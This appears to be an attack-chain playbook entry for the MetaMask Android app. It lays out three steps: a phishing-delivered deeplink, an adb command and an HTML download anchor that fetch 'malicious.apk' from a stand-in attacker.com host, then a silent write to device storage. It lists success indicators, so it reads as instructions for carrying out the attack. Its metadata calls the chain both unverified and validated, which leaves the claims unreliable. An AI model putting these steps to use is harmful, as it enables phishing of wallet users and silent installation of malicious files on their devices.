

---
tags:
  - deeplink-abuse
  - arbitrary-file-write
  - metamask
  - android
  - mobile-exploit
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Persistence]]'
verified: false
platforms:
  - Android
  - Mobile
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Abuse-Deeplink-to-Access-MetaMask-In-App-Browser]]'
  - '[[procedures/Trigger-Silent-File-Download-in-MetaMask-Browser]]'
  - '[[procedures/Achieve-Arbitrary-File-Write-to-Android-Disk]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Remote File Copy]]'
updated_at: '2025-12-14T17:24:44.921Z'
description: >-
  Multi-stage attack exploiting deeplink handling in the MetaMask Android app to
  silently write arbitrary files to the device's disk, enabling potential
  persistence or further compromise.
skill_level: intermediate
impact_level: high
id: c60a2f6c-323c-44b2-9b46-a5bf084e528c
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Persistence]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Remote File Copy]]'
---
# Arbitrary File Write via Deeplink Abuse in MetaMask Android

Multi-stage attack chain demonstrating exploitation of deeplink handling in the MetaMask Android app's in-app browser to trigger unauthorized file downloads and writes to the device's storage without user confirmation.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Android device with MetaMask app installed
- Attacker-controlled server hosting malicious file
- Deeplink crafting tool (e.g., ADB for testing)

### Target Environment

- Android OS (tested on recent versions)
- MetaMask mobile app
- No specific ports or services; app must be installed

### Initial Access Requirements

- User must have MetaMask app open or accessible
- Delivery of malicious deeplink via SMS, email, or malicious website
- No prior credentials needed; exploits app logic

## Detailed Attack Procedures

### Step 1: Abuse Deeplink to Access In-App Browser
procedure: [[procedures/Abuse-Deeplink-to-Access-MetaMask-In-App-Browser]]

**Objective**: Bypass standard app navigation to directly open the MetaMask in-app browser using a crafted deeplink.

**Instructions**: Craft a deeplink URL that targets the in-app browser functionality, such as `metamask://wc?uri=<encoded-malicious-url>`. Deliver this via a phishing link or intent launch. On a test device, use ADB to simulate: `adb shell am start -a android.intent.action.VIEW -d "metamask://wc?uri=https://attacker.com/malicious" com.metamask`. This forces the app to navigate directly to the browser without user interaction beyond opening the link.

**Expected Output**: MetaMask app launches and in-app browser opens to the attacker-specified URL.

**Success Indicators**:
- In-app browser loads without manual navigation
- No user prompts interrupt the flow

### Step 2: Trigger Silent File Download in Browser
procedure: [[procedures/Trigger-Silent-File-Download-in-MetaMask-Browser]]

**Objective**: Initiate an immediate download of an attacker-supplied malicious file within the in-app browser, bypassing any confirmation dialogs.

**Instructions**: From the loaded page in the in-app browser, embed JavaScript or use a direct link to trigger a download, e.g., `<a href="https://attacker.com/malicious.apk" download>`. The deeplink ensures the browser processes this without prompting. Verify via app logs or device file explorer post-execution.

**Expected Output**: File begins downloading automatically in the background.

**Success Indicators**:
- Network traffic shows file request to attacker server
- No download confirmation appears to the user

### Step 3: Achieve Arbitrary File Write to Android Disk
procedure: [[procedures/Achieve-Arbitrary-File-Write-to-Android-Disk]]

**Objective**: Save the downloaded file to the device's external or app-specific storage without notification, enabling persistence or exfiltration.

**Instructions**: The in-app browser's WebView configuration allows automatic saving to `/storage/emulated/0/Download/` or app data directories. Monitor via `adb logcat` for download completion logs. The file is written silently, and user only notices post-facto if checking storage.

**Expected Output**: Malicious file appears in device storage (e.g., `ls /storage/emulated/0/Download/` shows new file).

**Success Indicators**:
- File exists on disk with attacker content
- No user alerts during or immediately after write

## Attack Chain Summary

### Key Achievements

1. Bypassed user confirmation for file operations in a trusted wallet app
2. Enabled silent persistence of malicious files on Android devices
3. Demonstrated potential for data exfiltration or further chain attacks via written files

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Remote File Copy]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Persistence]]

---
*Last updated: 2023-10-01T00:00:00Z*
